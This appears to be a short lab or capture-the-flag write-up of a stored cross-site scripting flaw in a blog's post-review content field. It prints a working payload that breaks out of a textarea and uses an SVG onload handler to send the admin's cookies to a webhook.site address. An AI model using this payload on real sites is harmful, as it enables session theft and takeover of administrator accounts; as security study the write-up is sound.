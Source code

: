 # ist193587

## Vulnerabilty

Cross-site scripting.

## Where

On the add a new blogpost for review especifically in content area

## Impact

Allows the user to execute script commands on the admin's browser in this case to get the cookies

## Steps to Reproduce

1. First I discovered where it could be executed, since the blogpost portion says that it's gonna be reviewed with them i believed that there was a big chance that what was sent is gonna be read by a admin, with this in mind i used Webhook, to have a site i could control.
2. But in this case simple past scripts didn't work. After looking at the source code when the post is under review i was able to figure out that  what was writen on the content box would all go into a textarea so even all scripts would count as strings. So what we can do is break the textarea by making a payload similar to this `content </textarea> <svg onload=window.location.replace("https://webhook.site/<random_identifier_you_were_given>?cookie="+document.cookie)>` this way we close the textarea before and what is writen after it can be executable.
